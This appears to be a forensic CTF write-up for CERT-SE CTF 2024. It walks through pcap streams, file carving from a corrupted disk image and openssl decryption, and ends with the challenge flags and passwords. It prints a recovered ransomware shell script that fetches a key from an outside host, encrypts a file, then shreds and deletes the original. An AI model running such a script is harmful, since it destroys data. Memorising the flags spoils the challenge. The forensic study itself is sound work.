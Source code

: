 #CTF
### Original file: CERT-SE_CTF2024.pcap

Identified ip/mac addresses on file:
An4lys3r/Employee 1: 	IP: 10.0.0.10 MAC: 52:54:00:16:f6:1f
D3f3nd3r/Employee 2: 	IP: 10.0.0.20 MAC: 52:54:00:11:19:a7
??: 			IP: 10.0.0.30 MAC: 52:54:00:52:dc:1f
Server?:		IP: 10.0.0.50 MAC: 52:54:00:6f:d7:65

Suspicious ip address: 195.200.72.82
FTP packets to presumed server shows the credentials to this server.
User: anonymous 
Pass: NcFTP@


#### Stream 0:

stream 0 and 1 are the same but 10.0.0.10 is involved in stream 1 and .20 in stream 0. .30 is involved in both.

Holds a conversation from employees discovering they have been hacked. Same on stream 1, only from the other employees perspective.
From beginning of stream output of system
:irc.ctf.alt 005 D3f3nd3r CHANNELLEN=50 NICKLEN=9 TOPICLEN=490 AWAYLEN=127 KICKLEN=400 MODES=5 MAXLIST=beI:50 EXCEPTS=e INVEX=I PENALTY FNC :are supported on this server
:irc.ctf.alt 251 D3f3nd3r :There are 1 users and 0 services on 1 servers
:irc.ctf.alt 253 D3f3nd3r 1 :unknown connection(s)
:irc.ctf.alt 254 D3f3nd3r 1 :channels formed
:irc.ctf.alt 255 D3f3nd3r :I have 1 users, 0 services and 0 servers
:irc.ctf.alt 265 D3f3nd3r 1 2 :Current local users: 1, Max: 2
:irc.ctf.alt 266 D3f3nd3r 1 2 :Current global users: 1, Max: 2
:irc.ctf.alt 250 D3f3nd3r :Highest connection count: 2 (4 connections received)
:irc.ctf.alt 375 D3f3nd3r :- irc.ctf.alt message of the day
:irc.ctf.alt 372 D3f3nd3r :- "Hello world!"
:irc.ctf.alt 376 D3f3nd3r :End of MOTD command

Found first flag on packet 1742.
Second on packet 4.

packet 147 the person in the datacenter sends over ransom note. /home/user/emergency_net/DCC/RANSOM_NOTE.gz
SHA-256 checksum to go along: 7113f236b43d1672d881c6993a8a582691ed4beb4c7d49befbceb1fddfb14909

Someone posted a wordlist scraped from their public website, and ranting about recording web traffic from workstation CTF-PC01.

IP they found suspicious. Involved in [[Attacks on networks#C2 or C&C |C2]] and exfiltration activities. 195.200.72.82

#### Stream 2:
ransom
#### Stream 3:
corp_net1.pcap file sent to .20

#### Stream 4:
Packet 391 seems to have something to do with programming c++ buffer error and an error from a python library.
Packet 394 is very strange. Maybe has something to do with c++?
Packet 384/977 has something about a puzzle.exe
Packet 981 has some more whatyoulookingat.com and also polisen.se
Encrypted data but at the bottom is alot of "whatyoulookingat.com".
Also packet 1030 has alot of windows directory from recycle bin. and also whatyoulookingat.com, cloudflare.net and sapo.se.cdn.
They seem to have extracted Recycle-Bin.zip here also.

Extracted corp_net1.pcap here.

#### Stream 5:

corp_net2.pcap file sent to .20

#### Stream 6:

Looking at stream 3 where a request was made to get corp_net2.pcap, packet that said "ok to send data" was nr. 1128se and first packet of stream 6 was 1132 I figured this was probably
that .pcap file so i saved it as raw data with file extention .pcap, I was correct.

#### Stream 7:

disk1.img.gz file is sent to .20

#### Stream 8:

extracted file disk1.img.gz. Altough it cannot be decompressed with winrar.

#### Stream 10:

Seems to be the wordlist. 
Extracted file.

Extracted file: corp_net2.pcap

Extracted file: disk1.img.gz

## File disk1.img.gz

It was corrupted, but using [[Pen testing tools#Gzrecover|gzrecover]] and then [[Pen testing tools#TestDisk|testDisk]] I was able to extract 4 files.
1. secret
2. secret.encrypted
3. sslkeylogfile
4. ransomware.sh
After inspecting the files I found that sslkeylogfile contained some ssl keys for TLS 1.3.
Ransomware.sh contained a shell script that encrypted secret using -aes-128-cbc cipher with [[Pen testing tools#Openssl|openssl]], outputting the secret.encrypt file and then shredded the secret file with 'shred' command before removing it and the sslkeylogfile.
### ransomware.sh
`#!/bin/bash 
`password=$(SSLKEYLOGFILE=sslkeylogfile curl --insecure https://whatyoulookingat.com/1.txt)
`openssl enc -aes-128-cbc -pass pass:$password -in secret -out secret.encrypted
`shred secret
`rm secret
`rm sslkeylogfile
`rm $0

The secret file is probably a lost cause, I will instead focus on cracking the secret.encrypt file since I know aes128 was used and the sslkeylogfile previously extracted is probably going to help me decrypt the traffic where the password was obtained from whatyoulookingat.com.

## ransomNote.gz

After neglecting this file I ran gzrecover on it and got a ASCII text file. But the file was corrupted. The checksum is wrong, the original conversation the had the checksum provided: 7113f236b43d1672d881c6993a8a582691ed4beb4c7d49befbceb1fddfb14909.

## corp_net1.pcap

Here I found the password for the secret.encrypted file. Since I knew from the ransomware.sh script that the password was obtained from `whatyoulookingat.com/1.txt`, I searched for this as a regular expression in packet details. This led me to tcp stream 53 in this file. And packet 1920 had a payload of 17 bytes which had the password. 

	Password: pheiph0Xeiz8OhNa

Now I could decrypt the file. 
```
openssl enc -d -aes-128-cbc -in secret.encrypted -out secret.txt -pass pass:pheiph0Xeiz8OhNa
```
And in secret.txt was CTF\[OPPORTUNISTICALLY]
### FLAGS:

CTF\[E65D46AD10F92508F500944B53168930]
CTF\[AES128]
CTF\[OPPORTUNISTICALLY]